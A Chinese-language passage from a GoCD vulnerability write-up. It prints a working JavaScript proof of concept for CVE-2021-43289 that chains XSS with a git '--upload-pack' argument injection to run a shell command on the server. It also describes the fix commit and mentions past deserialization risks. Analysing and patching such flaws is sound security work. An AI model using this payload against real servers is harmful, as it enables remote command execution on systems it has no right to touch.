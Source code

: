 ### 漏洞利用

xss 利用文件 配合 `CVE-2021-43289` 的poc

```
var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', window.location.protocol + '//' + window.location.host + '/go/api/admin/internal/material_test', true);
httpRequest.setRequestHeader('Content-type','application/json; charset=utf-8');
httpRequest.setRequestHeader('Accept','application/vnd.go.cd.v1+json');
httpRequest.send(JSON.stringify({"attributes":{"auto_update":true,"filter":null,"url":"--upload-pack=\\\"$(id>/tmp/test6)\\\"","shallow_clone":false,"password":""},"type":"git","pipeline_group":"defaultGroup"}))
```



### 修复

[commits](https://github.com/gocd/gocd/commit/6fa9fb7a7c91e760f1adc2593acdd50f2d78676b)
修复主要还是添加了 url 的验证文件，限制了字符范围，命令拼接时会提前准备好 `--` 部分
![4430fe73e4b20f4d6051ff244de633f8.png](/img/gocd/e81ca4606276431ba382e5307435b8e9.png)
![f01aa40c53730643abca776d1cca70c5.png](/img/gocd/be7528286ba547f3a7b665ffb4e94358.png)

## 历史风险点

实际上 gocd 历史版本还存在多个风险点，使用 rpc 方式处理 agent 请求，存在反序列化漏洞